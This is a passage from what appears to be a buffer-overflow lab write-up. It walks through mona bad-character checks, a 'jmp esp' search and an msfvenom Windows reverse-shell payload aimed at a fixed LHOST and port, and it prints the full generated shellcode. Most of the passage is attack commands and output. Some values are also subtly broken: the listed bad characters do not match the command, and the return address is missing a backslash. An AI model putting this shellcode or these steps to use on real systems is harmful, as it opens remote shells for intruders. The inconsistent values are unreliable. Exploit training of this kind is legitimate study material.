Our new Mona byarray command will look like this:

    !mona bytearray -b "\x00\x0A"

We repeat the badchar comparison until the results status returns “Unmodified”. This indicates that no more badchars exist. This means executing the expliot, running the Mona-look-for-bad-chars-command, if there are new badchars we run mona-generate-new-bytearray-excluding-new-badchards-command, update the exploit

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

    !mona jmp -r esp -cpb "\x00\x0a\x80"

Choose an address and update your exploit.py script, setting the “retn” variable to the address, written backwards. For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

    Our address is 080414c3 so our retn = "xc3\x14\x04\x08"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.18.91.23 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x80" -f py
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of py file: 1745 bytes

    buf =  b""
    buf += b"\xd9\xe8\xbe\x9c\xb1\xf6\xf8\xd9\x74\x24\xf4\x58"
    buf += b"\x33\xc9\xb1\x52\x31\x70\x17\x83\xe8\xfc\x03\xec"
    buf += b"\xa2\x14\x0d\xf0\x2d\x5a\xee\x08\xae\x3b\x66\xed"
    buf += b"\x9f\x7b\x1c\x66\x8f\x4b\x56\x2a\x3c\x27\x3a\xde"
    buf += b"\xb7\x45\x93\xd1\x70\xe3\xc5\xdc\x81\x58\x35\x7f"
    buf += b"\x02\xa3\x6a\x5f\x3b\x6c\x7f\x9e\x7c\x91\x72\xf2"
    buf += b"\xd5\xdd\x21\xe2\x52\xab\xf9\x89\x29\x3d\x7a\x6e"
    buf += b"\xf9\x3c\xab\x21\x71\x67\x6b\xc0\x56\x13\x22\xda"
    buf += b"\xbb\x1e\xfc\x51\x0f\xd4\xff\xb3\x41\x15\x53\xfa"
    buf += b"\x6d\xe4\xad\x3b\x49\x17\xd8\x35\xa9\xaa\xdb\x82"
    buf += b"\xd3\x70\x69\x10\x73\xf2\xc9\xfc\x85\xd7\x8c\x77"
    buf += b"\x89\x9c\xdb\xdf\x8e\x23\x0f\x54\xaa\xa8\xae\xba"
    buf += b"\x3a\xea\x94\x1e\x66\xa8\xb5\x07\xc2\x1f\xc9\x57"
    buf += b"\xad\xc0\x6f\x1c\x40\x14\x02\x7f\x0d\xd9\x2f\x7f"
    buf += b"\xcd\x75\x27\x0c\xff\xda\x93\x9a\xb3\x93\x3d\x5d"
    buf += b"\xb3\x89\xfa\xf1\x4a\x32\xfb\xd8\x88\x66\xab\x72"
    buf += b"\x38\x07\x20\x82\xc5\xd2\xe7\xd2\x69\x8d\x47\x82"
    buf += b"\xc9\x7d\x20\xc8\xc5\xa2\x50\xf3\x0f\xcb\xfb\x0e"
    buf += b"\xd8\xfe\xe9\x4b\x0f\x97\x0f\x6b\x3e\x3b\x99\x8d"
    buf += b"\x2a\xd3\xcf\x06\xc3\x4a\x4a\xdc\x72\x92\x40\x99"
    buf += b"\xb5\x18\x67\x5e\x7b\xe9\x02\x4c\xec\x19\x59\x2e"
    buf += b"\xbb\x26\x77\x46\x27\xb4\x1c\x96\x2e\xa5\x8a\xc1"
    buf += b"\x67\x1b\xc3\x87\x95\x02\x7d\xb5\x67\xd2\x46\x7d"
    buf += b"\xbc\x27\x48\x7c\x31\x13\x6e\x6e\x8f\x9c\x2a\xda"